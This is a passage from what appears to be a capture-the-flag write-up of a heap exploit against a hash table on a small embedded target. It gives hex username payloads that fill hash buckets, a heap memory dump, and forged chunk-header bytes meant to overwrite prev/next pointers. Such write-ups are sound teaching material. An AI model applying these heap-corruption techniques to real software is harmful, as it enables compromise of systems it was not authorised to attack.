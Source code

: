 ```
r12 gets repeatedly doubled untli it is the numbre of buckets, and
then r15 (which after the call to `hash` contains the hash value) ges
ANDed with r12-1.  

And for a single character with value x, the hash value is (-x)%8.  So
if we want to hash to bucket 0, any single character username (except
the special characters of space, semicolon, and the null byte) should
work.

*Step 1: Filling the buckets*

So now we're going to have to input in hex.  We start with the below
annotated payload fragment to fill bucket 0:

```
6e6577200820303b6e6577201020303b6e6577201820303b6e6577202820303b6e6577203020303b
n e w _ UN_ PW; n e w _ UN_ PW; n e w _ UN_ PW; n e w _ UN_ PW; n e w _ UN_ PW;  
```

Then, similarly to fill bucket 1: 

```
6e6577200120303b6e6577200920303b6e6577201120303b6e6577201920303b6e6577202120303b
n e w _ UN_ PW; n e w _ UN_ PW; n e w _ UN_ PW; n e w _ UN_ PW; n e w _ UN_ PW;  
```

*Step 2: Overfilling bucket 0*

Recall that when all allocated, the hash table started as: 

```
5000:   0050 1050 1500 0a00 0300 0500 1650 2c50   .P.P.........P,P
5010:   0050 2650 2100 4250 a250 0251 6251 c251   .P&P!.BP.P.QbQ.Q
5020:   2252 8252 e252 1050 3c50 2100 0100 0100   "R.R.R.P<P!.....
5030:   0100 0100 0100 0100 0200 0200 2650 9c50   ............&P.P
5040:   b500 6800 0000 0000 0000 0000 0000 0000   ..h.............
5050:   0000 0800 0000 0000 0000 0000 0000 0000   ................
5060:   *
5090:   0000 0000 0000 0000 0000 0000 3c50 fc50   ............<P.P
50a0:   b500 6700 0000 0000 0000 0000 0000 0000   ..g.............
50b0:   0000 0700 0000 0000 0000 0000 0000 0000   ................
50c0:   *
50f0:   0000 0000 0000 0000 0000 0000 9c50 5c51   .............P\Q
5100:   b500 6600 0000 0000 0000 0000 0000 0000   ..f.............
5110:   0000 0600 0000 0000 0000 0000 0000 0000   ................
5120:   *
5150:   0000 0000 0000 0000 0000 0000 fc50 bc51   .............P.Q
5160:   b500 6500 0000 0000 0000 0000 0000 0000   ..e.............
5170:   0000 0500 0000 0000 0000 0000 0000 0000   ................
5180:   *
51b0:   0000 0000 0000 0000 0000 0000 5c51 1c52   ............\Q.R
51c0:   b500 6400 0000 0000 0000 0000 0000 0000   ..d.............
51d0:   0000 0400 0000 0000 0000 0000 0000 0000   ................
51e0:   *
```

So the real prev and next chunks for bucket 1 are: 503c and 50fc, and
for bucket 2 are 509c and 515c.  Thus we want the first five bytes of
the sixth username added to bucket 0 to be `3c505c51b5`
(i.e. prev=bucket 0, next=bucket 3,size=whatever,allocated?=1)

So we need a suffix to append to the username `3c505c51b5` to make its
hash 0 modulo 8.  This is easy:

```